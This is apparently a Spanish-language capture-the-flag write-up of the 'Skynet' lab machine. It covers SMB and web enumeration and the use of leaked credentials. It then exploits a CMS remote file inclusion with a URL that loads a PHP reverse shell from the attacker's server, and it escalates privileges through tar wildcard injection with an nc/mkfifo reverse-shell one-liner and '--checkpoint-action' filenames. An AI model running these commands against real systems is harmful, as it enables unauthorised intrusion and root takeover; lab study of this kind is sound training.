 # Skynet

# Reconocimientos

Ejecutamos Nmap para enumerar puertos/servicios

```
sudo nmap -sCV -T4 --min-rate 4000 10.10.121.81

Starting Nmap 7.60 ( https://nmap.org ) at 2024-11-08 09:16 GMT
Nmap scan report for ip-10-10-121-81.eu-west-1.compute.internal (10.10.121.81)
Host is up (0.00046s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (EdDSA)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Skynet
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: UIDL TOP PIPELINING RESP-CODES SASL CAPA AUTH-RESP-CODE
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: LITERAL+ ID LOGIN-REFERRALS OK IDLE ENABLE more IMAP4rev1 Pre-login capabilities have LOGINDISABLEDA0001 SASL-IR listed post-login
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
MAC Address: 02:5E:1E:12:E1:41 (Unknown)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2024-11-08T03:16:39-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-11-08 09:16:39
|_  start_date: 1600-12-31 23:58:45

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.21 seconds
```

Vamos a enumerar primer ode todo el SMB ya que esta disponible parece ser

```
smbclient -L //10.10.121.81
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 

	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	anonymous       Disk      Skynet Anonymous Share
	milesdyson      Disk      Miles Dyson Personal Share
	IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            SKYNET
```

Posteriormente vemos una carpeta "anonymous" vamos a ver si conseguimos algo

```
smbclient //10.10.121.81/anonymous
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Nov 26 16:04:00 2020
  ..                                  D        0  Tue Sep 17 08:20:17 2019
  attention.txt                       N      163  Wed Sep 18 04:04:59 2019
  logs                                D        0  Wed Sep 18 05:42:16 2019

		9204224 blocks of size 1024. 5831516 blocks available
smb: \> cd logs
smb: \logs\> dir
  .                                   D        0  Wed Sep 18 05:42:16 2019
  ..                                  D        0  Thu Nov 26 16:04:00 2020
  log2.txt                            N        0  Wed Sep 18 05:42:13 2019
  log1.txt                            N      471  Wed Sep 18 05:41:59 2019
  log3.txt                            N        0  Wed Sep 18 05:42:16 2019

		9204224 blocks of size 1024. 5831516 blocks available
smb: \logs\> get log1.txt
getting file \logs\log1.txt of size 471 as log1.txt (92.0 KiloBytes/sec) (average 92.0 KiloBytes/sec)
smb: \logs\> exit
```

Sacamos los logs, dentro de el nos encontramos bastantes contraseñas, probaremos a conectarnos a la carpeta de milesdyson a ver si encontramos algo. Parece ser que la contraseña no pertece a esto.

Vamos a enumerar la web a ver si encontramos algo

![image](https://github.com/user-attachments/assets/360b99f8-fdce-424c-bccf-ed4df33331da)

Vamos a enumerar subdominios a ver si encontramos algo

```
/admin
/css
/js
/config
/squirrelmail
/ai
```

Parece ser que no tenemos acceso a ningún recurso menos a /squirrelmail

He probado las credenciales miledyson:cyborg007haloterminator y he entrado

![image](https://github.com/user-attachments/assets/33f5af6f-c90f-43b3-9347-096e1c5326f6)

En el primer correo sacamos la pass

![image](https://github.com/user-attachments/assets/4e31103e-4c92-49bf-992d-4564aef99104)

```
smbclient -U milesdyson%')s{A&2Z=F^n_E.B`' //10.10.121.81/milesdyson
```
Dentro del directorio notes nos encontramos un archivo que se llama important.txt

vamos a cogerlo, vaya parece que nos da una ruta interesante: /45kra24zxs28v3yd

![image](https://github.com/user-attachments/assets/6434cfe6-3d3f-4d03-9169-8068cf460ebf)

Como veía que no habia nada en esta ruta he hecho un ffuf

```
/administrator
```

![image](https://github.com/user-attachments/assets/7328b86e-21e7-4ec3-b7ed-33107bcb8619)

Parece ser que este CMS tiene una vulnerabilidad registrada con el archivo COnfigField.php

![image](https://github.com/user-attachments/assets/5f545f65-fa56-4daa-915c-59f5d357c879)

Parece ser un RFI (Remote File Inclusion)

Vamos a leer el lo que pone en el archivo que nos inidica

```
#####################################################
DESCRIPTION
#####################################################

An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.
```

1- Cogemos una rev shell php (pentest monkey)
2- abrimos un servidor (pyhon3 -m http.server)
3- abrimos un netcat (rlwrap nc -lvnp puerto)
4- nos vamos a la URL (http://10.10.121.81/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.234.153:8000/php.php)

![image](https://github.com/user-attachments/assets/edbb83b2-fb08-4ab0-8763-9208b0967a77)

Estamos dentro !!

Vamos a sacar la primera flag de usuario 

```
/home/milesdyson/user.txt
```

En mi caso voy a upgradear la shell

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

Ya que estamos con esto podemos enumerar para escalar privilegios

# Escalada

Dentro del directorio de milesdyson nos encontramos "backups", dentro del mismo un "backup.sh con permisos de admin"

```
cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Encontramos esta url en lo que nos explica la forma de explotar este tipo de vulnerabilidades

https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/

En este caso se utilizan opciones como, chown, tar, rsync etc manifiestos

A nosotros sabremos que es un tar, haciendo una accion especficia despues de la accion del checkpoint puede imputear un shell script que se use para ejectuar comandos arbitrarios, si creamos "ficheros" que hagan comandos arbitrarios:

```
$ cd /var/www/html
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <our-ip> <our-port> > /tmp/f" > shell.sh
$ chmod 777 shell.sh
$ echo "/var/www/html"  > "--checkpoint-action=exec=sh shell.sh"
$ echo "/var/www/html"  > --checkpoint=1
```

![image](https://github.com/user-attachments/assets/c2ecbfce-61b6-456b-a64c-29ac427df089)

GG !!!!

Sacamos la root flag





